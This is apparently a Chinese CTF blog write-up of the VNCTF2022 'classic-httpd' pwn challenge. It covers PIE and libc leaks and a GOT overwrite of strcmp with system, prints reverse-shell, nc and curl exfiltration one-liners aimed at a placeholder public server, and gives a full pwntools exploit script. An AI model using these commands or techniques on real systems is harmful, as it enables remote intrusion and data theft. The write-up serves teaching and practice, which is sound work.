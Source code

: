 ```yaml
---
layout: article
pageview: true
key: 2022-03-07-vnctf2022-httpd
title: VNCTF2022Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


通过`classic-httpd`学习入门`httpd-pwn`
<!--more-->

## classic-httpd

题目是64位elf，保护为`Partial RELO`，意味着`got`表可写，其他保护全开。
### 初步分析
一般httpd程序的执行流程为
1. 在main函数中用pthread或fork来进入HTTP请求处理函数
2. 在HTTP请求处理函数中，过滤掉不合法的请求协议（通常只接受GET/POST）和请求目录（通常过滤掉含有".."的url，使我们不能访问`xxx.com/../flag` 来直接读取flag）
3. 根据请求url，跳转到对应的cgi函数或文件读取函数

程序只有3个可以访问的路径，`/htdocs/index.html`、`/htdocs/welcome.cgi`、`/htdocs/submit.cgi`，前两个路径都只会返回`/htdocs/index.html`文件内容，我们重点分析第三个cgi

![](https://md.buptmerak.cn/uploads/upload_060cbb11e92d60deb961e641ed7bf0ee.png)
经过逆向，我们发现`submit.cgi`以`GET`方式接受一个`base64`加密后的字符串，字符串原文必须类似以下结构
```c 
int num;
struct payload
{
    int code;
    int arg[6];

}payloads[8];
```
结构体中`code`决定走向哪一个功能分支，我们发现有输出功能、泄露制定地址功能、任意地址内容泄露功能、任意地址写功能以及一个输出功能，并且功能的使用顺序有一定的限制。
### 利用思路
我们先创建`/htdocs/index.html`来保证程序能够正常运行。
不难想到通过指定地址泄露功能来拿到`pie`地址，再通过任意地址内容泄露功能打印出`got`表内容来泄露`libc`基地址，如果为传统pwn，我们就可以任意地址写修改`hook`为`one_gadget`或修改`got`表来运行`system("cat flag")`拿flag走人，但别忘了在httpd-pwn中，我们与程序的交互有`socket`的隔阂，我们只能获取到程序通过`socket`发送的内容，程序的输出对我们来说并不可见。
### 反弹flag方法
既然我们在`socket`语境下，那我们也用`socket`的方法解决问题。
首先我们需要控制程序流，我们注意到在输出功能中有一个`strcmp`函数以用户输入的字符串为参数，那我们就可以修改其为`system`函数来执行命令，我们就可以尝试反弹shell、反弹flag、写flag进文件的方法了。

- 反弹shell
    1. 首先我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`bash -i >& /dev/tcp/1.1.1.1/4444 0>&1`，在此题语境下为执行`system("bash -i >& /dev/tcp/1.1.1.1/4444 0>&1");`（下略）
    3. 我们可以看到服务器上出现了受害者的shell，cat flag即可

- 反弹flag到nc
    1. 我们需要一台公网服务器，其ip假定为 1.1.1.1，我们登录服务器并运行命令`nc -lvp 4444`
    2. 在受害者的电脑上运行命令`cat flag > nc 1.1.1.1 4444`
    3. 服务器上接收到flag

- 反弹flag到http服务器
    1. 我们依然需要一台公网服务器并有一个http服务器运行在80端口，ip假定为 1.1.1.1
    2. 执行curl http://1.1.1.1/\`cat flag\` （注意命令中的反引号）
    3. 登录服务器，查看日志，获取flag
![](https://md.buptmerak.cn/uploads/upload_338c549a596c7b26f76193d8b6421cfd.png)

- 写flag到文件
    1. 直接执行`cat flag > /htdocs/index.html`
    2. 正常访问`/htdocs/index.html`即可
程序在docker环境里一般没有写权限，所以这种方法成功率并不高

利用命令执行拿flag的方法还有很多，这里就不一一细举了，具体使用需要依赖题目环境等，希望能对刚刚接触http-pwn的读者有所启发。

### 完整exploit

```python-repl=
from pwn import *
import base64
import requests
context(arch='amd64',os='linux',log_level='debug')

elf=ELF('./httpd')
libc=ELF('./glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc-2.31.so')

url='http://localhost:4000/submit.cgi'

def make(con):
    return base64.b64encode(con)

payload=p32(1)+p32(102)+p32(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)
pie=int(res[27:39],16)-0x4008
print("[+]pie->"+hex(pie))

payload=p32(1)+p32(136)+p64(pie+elf.got['printf'])+p64(0)
s=requests.get(url,params=make(payload))
res=s.text
print(res)

libc_base=int(res[40:52],16)-libc.sym['printf']

print("[+]libc_base->"+hex(libc_base))

shell=b'curl http://xx.xx/`cat flag`'
payload=p32(2)+p32(241)+p64(pie+elf.got['strcmp'])+p64(0)+p64(libc_base+libc.sym['system'])+p32(34)+shell
s=requests.get(url,params=make(payload))
res=s.text
print(res)

```

### Tips
泄露远程libc版本后，可以使用[glibc-all-in-one](https://github.com/matrix1001/glibc-all-in-one)下载带符号表的`libc`文件帮助调试。